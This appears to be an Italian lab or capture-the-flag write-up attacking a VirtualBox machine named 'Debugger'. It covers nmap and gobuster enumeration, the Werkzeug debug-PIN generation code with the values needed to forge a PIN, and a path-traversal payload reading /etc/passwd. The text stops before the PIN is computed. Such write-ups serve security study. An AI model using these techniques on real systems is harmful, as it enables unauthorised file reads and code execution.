


# VDSI - Debugger (Andrea Pepe - m. 0315903)


## Foothold

### Network scanning
```
$ nmap -sP 192.168.56.101/24
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-09 15:15 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.101
Host is up (0.00014s latency).
Nmap scan report for 192.168.56.110
Host is up (0.0024s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 17.20 seconds
```

L'indirizzo IP della macchina target è **192.168.56.110**.


### Port scanning
```
$ sudo nmap -sS 192.168.56.110
[sudo] password di andrea: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-09 15:16 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.110
Host is up (0.00015s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 08:00:27:33:9D:4B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.69 seconds
```

```
$ sudo nmap -sC -sV -p22,80,8080 192.168.56.110
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-09 15:17 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.110
Host is up (0.00083s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:3e:20:a3:3f:57:5f:63:c1:22:ec:06:d0:f0:da:68 (ECDSA)
|_  256 9c:60:a8:90:17:3d:da:2c:c2:10:f4:c3:ab:29:85:5a (ED25519)
80/tcp   open  http    nginx
|_http-title: 503 Service Temporarily Unavailable
8080/tcp open  http    nginx 1.21.6
|_http-title: Twenty by HTML5 UP
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.21.6
MAC Address: 08:00:27:33:9D:4B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

Vediamo che sulla porta 80 ci viene detto che il servizio è temporaneamente non disponibile. Invece, la porta 8080 sembra fare da proxy. Il sito, appare come segue, con un template preso da HTML5 UP (TWENTY):


Analizzando il sorgente della pagina, vediamo che ci sono dei riferimenti ad http://debugger.vdsi. Da cui, si capisce che il dominio del servizio web è **debugger.vdsi** e lo si associa all'indirizzo IP della macchina target nel file _/etc/hosts_.


### Virtual host enumeration
```
$ gobuster vhost -u http://debugger.vdsi -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://debugger.vdsi
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/09 15:29:59 Starting gobuster in VHOST enumeration mode
===============================================================
Found: upload.debugger.vdsi (Status: 200) [Size: 5316]
Found: whoami.debugger.vdsi (Status: 200) [Size: 17]  
===============================================================
2022/07/09 15:30:22 Finished
===============================================================
```

Sono stati trovati due virtual hosts che andiamo ad indicare nel file _/etc/hosts_. 

Il dominio whoami.debugger.vdsi, mostra la seguente schermata:


Invece, il dominio upload.debugger.vdsi, appare come un sito web che permette di fare upload di files. Inoltre, c'è un bottone di download che ha permesso di scaricare un file **source.zip**.
Eseguitone l'unzip, il risultato sono le seguenti risorse che sembrano essere necessarie per l'esecuzione di un'applicazione in un container docker. Proseguiremo ad analizzarle attentamente.


### File enumeration (upload.debugger.vdsi)
```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://upload.debugger.vdsi -x php,js,html,txt      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://upload.debugger.vdsi
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,js,html,txt
[+] Timeout:                 10s
===============================================================
2022/07/09 15:53:00 Starting gobuster in directory enumeration mode
===============================================================
/console              (Status: 200) [Size: 1563]
/download             (Status: 200) [Size: 2489147]
                                                   
===============================================================
2022/07/09 15:53:26 Finished
===============================================================
```

Vediamo che c'è una risorsa console, mentre la cartella upload non viene mostrata, in quanto dà come errore 404 not found, ma sappiamo che c'è. Proviamo ad enumerare files al suo interno. Non sembrano esserci risultati. Invece, per quanto riguarda la risorsa console, appare come segue: una console per eseguire comandi in python, la quale però richiede un PIN per essere sbloccata:


Vedendo il sorgente della pagina, c'è scitto un _SECRET_, ma purtroppo non è il PIN che sblocca la console.




Tuttavia, torniamo ad analizzare il contenuto della cartella **source** ottenuta in precedenza. Analizzando i vari file di configurazione, non sembra altro che il codice che fa girare con Flask il web server con l'app di UpCloud. Tuttavia, notiamo che c'è un branch:
```
┌──(andrea㉿roronoa)-[~/…/htb/vdsi/debugger/source]
└─$ git branch --all
  dev
* public
```

Proviamo a cambiare branch spostandoci su dev, il che promette bene.
Nulla, nessuna indormazione interessante.
Tuttavia, provando a mandare in crash chiedendo un file che in uploads non esiste, si ottiene la schermata del debugger:




Cercando online il codice sorgente di Werkzeug per la generazione del PIN per sbloccare la console, si è trovato il codice disponibile al seguente [link](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py).

In particolare, vediamo come viene genrato il pin:
```py
def get_pin_and_cookie_name(app):
    pin = os.environ.get('WERKZEUG_DEBUG_PIN')
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == 'off':
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace('-', '').isdigit():
        # If there are separators in the pin, return it directly
        if '-' in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, '__module__',
                      getattr(app.__class__, '__module__'))

    try:
        # `getpass.getuser()` imports the `pwd` module,
        # which does not exist in the Google App Engine sandbox.
        username = getpass.getuser()
    except ImportError:
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, '__name__', getattr(app.__class__, '__name__')),
        getattr(mod, '__file__', None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
    ]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv, cookie_name   
```

Le cose che ci servono per generarlo, sono le seguenti:
```py
probably_public_bits = [
username,
modname,
getattr(app, '__name__', getattr(app.__class__, '__name__')),
getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

Username è l'utente che ha fatto partire Flask (root, letto da _supervisord.conf_ nella cartella **source** scaricata).
La modname è **flask.app**.
Il terzo public bit è **Flask**, mentre il quarto lo possiamo desumere dal debugger:
**/usr/local/lib/python3.10/site-packages/flask/app.py**.

Per quanto riguarda i private_bits, uuid.getnode() è l'indirizzo MAC del computer espresso in decimali. Lo possiamo prendere dall'esecuzione dei nmap: **08:00:27:33:9D:4B**.
Ci manca solo il machine-id, che tipivcamente viene letto dal file _/etc/machine-id_. Senza una LFI è difficile da ottenere. Potremmo usare l'ID dato dal dominio **whoami.debugger.vdsi**.

In ogni caso, la LFI è stata poi trovata: basta inserire dopo la cartella uploads i caratteri ..// per iniziare a cercare dalla root. Ad esempio:
```
http://upload.debugger.vdsi/uploads/..//etc/passwd
```

Funziona solo da burpsuite!


